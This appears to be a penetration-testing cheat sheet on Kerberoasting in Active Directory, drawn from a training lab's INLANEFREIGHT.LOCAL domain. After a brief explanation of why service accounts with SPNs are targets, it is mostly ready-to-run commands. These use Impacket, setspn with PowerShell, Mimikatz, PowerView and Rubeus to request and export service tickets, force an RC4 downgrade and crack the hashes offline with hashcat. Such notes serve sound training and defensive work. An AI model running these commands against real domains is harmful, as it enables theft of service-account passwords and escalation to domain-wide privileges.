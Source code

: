## Keberoasting

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as NT AUTHORITY\LOCAL SERVICE. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

Domain accounts running services are often local administrators, if not highly privileged domain accounts. Due to the distributed nature of systems, interacting services, and associated data transfers, service accounts may be granted administrator privileges on multiple servers across the enterprise. Many services require elevated privileges on various systems, so service accounts are often added to privileged groups, such as Domain Admins, either directly or via nested membership. Finding SPNs associated with highly privileged accounts in a Windows environment is very common. Retrieving a Kerberos ticket for an account with an SPN does not by itself allow you to execute commands in the context of this account. However, the ticket (TGS-REP) is encrypted with the service account’s NTLM hash, so the cleartext password can potentially be obtained by subjecting it to an offline brute-force attack with a tool such as Hashcat.

## Kerberoasting - Linux

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using runas /netonly.

### Impacket Kerberoasting

```bash
## Install Impacket using Pip
sudo python3 -m pip install .

## List SPN accounts with GetUserSPNs.py
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

## Request all TGS tickets
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

## Request for specific account TGS ticket
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

## Save TGS ticket for offline cracking
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

## Cracking ticket offline with Hashcat
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

## Kerberoasting - Windows

Before tools such as Rubeus existed, stealing or forging Kerberos tickets was a complex, manual process. As the tactic and defenses have evolved, we can now perform Kerberoasting from Windows in multiple ways. To start down this path, we will explore the manual route and then move into more automated tooling.

### Semi-Manual Method

```powershell
## Enumerate SPN
setspn.exe -Q */*

## Targeting single user
## Request and load TGS ticket into memory for future Mimikatz
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

## Retrieving all tickets 
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

## Extract using Mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```

```bash
## Prepare file for correct format for cracking
echo "<base64 blob>" |  tr -d \\n
cat encoded_file | base64 -d > sqldev.kirbi
python2.7 kirbi2john.py sqldev.kirbi

## Confirm hash can be fed
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

## Crack using hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated Method

```powershell
## Use PowerView
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname

## Target specific user
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

## Export all TGS tickets to csv
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

```powershell
## Use Rubeus
## Get some statistics
.\Rubeus.exe kerberoast /stats

## Accounts with admincount attribute set to 1
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

## Check supported encryption types
## Hashes that begin with $krb5tgs$23$*, an RC4 (type 23) encrypted ticket
## AES-256 (type 18) encrypted hash or hash that begins with $krb5tgs$18$* -- longer to crack
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

## Force downgrade of hash to RC4
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

